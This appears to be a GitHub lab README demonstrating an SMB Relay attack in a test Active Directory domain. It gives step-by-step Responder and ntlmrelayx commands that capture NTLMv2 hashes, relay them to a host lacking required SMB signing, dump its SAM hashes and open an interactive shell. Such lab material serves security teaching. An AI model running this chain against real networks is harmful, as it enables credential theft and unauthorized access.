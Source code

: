# SMB Relay LAB DEMO 

### STEP 1 : IDENTIFYING HOSTS WITH SMB SIGNING DISABLED

In order to perform an SMB Relay attack we need to check whether the target has SMB signing feature disabled. For doing this we can use an `nmap` script called `smb2-security-mode`.
<br>
This tool will start a script scan on each machine on the Subnet Range we given as input, this script will display the SMB SIGNING configuration of each machine.

```bash 
nmap --script=smb2-security-mode.nse "TARGET SUBNET"
```
![smbsign DC](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/103fb59a-3997-4c38-901d-2557b2489486)

<br>The scan result of JUSTICE-DC (Domain Controller) says that "`Message Signing is ENABLED and REQUIRED`". This means that SMB signing is enable and the machine will check all the signature to grand access into it.<br>
Since SMB signing is enabled, we can't use this as a target. <br>

![smbsign BATMAN](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/e679b4d9-9ed2-42bc-a4b9-a5b471abc020)
![smbsign FLASH](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/857ce410-dd42-4415-86e9-8e57b7d639bf)

<br>Now we have our user machines and the scan results says "`Message Signing is ENABLED and NOT REQUIRED`". This means that even though SMB signing is enabled, it doesn't require them. So when we make a request, it doesn't require any signature matching to grant access.

<br>In this case, we can choose `FLASH` as a target because SMB Signing is not Required and also `Bruce Wayne` whose NTLMv2 credentials we have is a LOCAL ADMIN on `FLASH`.

<br>So we can copy the IP of FLASH (`192.168.31.145`) into a text file named `targets.txt`

### STEP 2 : DISBALING SMB & HTTP IN RESPONDER:

We need to turn OFF the SMB and HTTP server option in Responder because unlike LLMNR Poisoning, we are not responding to anything using these servers, In SMB Relay we are just relaying NTLMv2 hash to the target machine. 

```
gedit /etc/responder/Responder.conf
```

![smb OFF http OFF](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/bd69d004-ab68-41dd-8991-d18567c7d8b3)

###### NOTE : STEP 3 and STEP 4 should be done simultaneously by setting up both tools on different terminals. 

### STEP 3: SET UP RESPONDER TO CAPTURE THE NTLMv2 HASH

Set up responder on one terminal and trigger an event on `BATMAN`. The responder will start listening for events and once DNS fails, Responder grabs the username and NTLMv2 hash credentials of `Bruce Wayne`

```bash
responder -I eth0 -dwv
```
![responder out](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/d0ac1a3f-d28d-4c4c-acd8-ffb82a39acae)

### STEP 4:  SET UP NTLMRELAYX TOOL

`ntlmrelayx` is the tool that relays the hash obtained via Responder to the Target machine (`FLASH`) and authenticates to FLASH (`192.168.31.145`) as its Local Admin `Bruce Wayne`.
<br>We need to set up this tool simultaneously on the second terminal.

```
ntlmrelayx.py -tf targets.txt --smb2support
```
`-tf` : denotes the Target file which is the txt file where we saved the identified hosts.

![ntlmrela 1](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/3be9faec-1c00-4f15-bdbc-7e222ee2440a)
![SAM dump](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/86fafeeb-bd51-44a5-a7c3-1fc8fcbe8fed)

<br>We successfully authenticated to the target FLASH (`192.168.31.145`) as `Bruce Wayne` and the tool dumped the contents of local SAM database which has all the NTLM hashes of all local users.

<br>We can copy these hashes, try to crack them or we can also use them to access other machines via Lateral Movement.

### STEP 5:  OBTAINING AN INTERACTIVE SHELL

In normal SMB relay attack we dump the contents of Local SAM file. 
<br>Instead of this we can add an `-I` option to gain a interactive Shell into the target machine.

```
ntlmrelayx.py -tf targets.txt --smb2support -i
```
![ntrelay shell](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/e94db6d0-d6ca-4f6d-a14f-1aeb2419a264)

<br>The tool successfully authenticated to the `FLASH` and opened an interactive shell session on `127.0.0.1` via Port `11001`. Now since we got the IP and port we can make a connection to it using tools like "netcat".

![interactive shell](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/de80c372-aa61-48a7-b584-e82c02363e8b)

